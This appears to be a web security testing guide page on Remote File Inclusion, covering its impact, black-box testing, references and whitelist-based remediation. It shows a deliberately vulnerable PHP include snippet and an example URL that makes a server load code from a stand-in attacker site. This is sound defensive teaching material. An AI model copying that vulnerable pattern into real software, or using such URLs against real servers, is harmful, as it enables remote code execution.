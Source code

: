 Summary
-------

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

-   Code execution on the web server
-   Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS)
-   Denial of Service (DoS)
-   Sensitive Information Disclosure

**Remote File Inclusion** (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing external URL to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

How to Test
-----------

Since RFI occurs when paths passed to “include” statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:

    $incfile = $_REQUEST["file"];
    include($incfile.".php");

In this example the path is extracted from the HTTP request and no input validation is done (for example, by checking the input against a white list), so this snippet of code results vulnerable to this type of attack. Consider infact the following URL:

     
    http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page

In this case the remote file is going to be included and any code contained in it is going to be run by the server.

References
----------

**Whitepapers**

-   “Remote File Inclusion” - <http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion>
-   Wikipedia: “Remote File Inclusion” - <https://en.wikipedia.org/wiki/Remote_File_Inclusion>

Remediation
-----------

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this is not possible the application can maintain a white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.
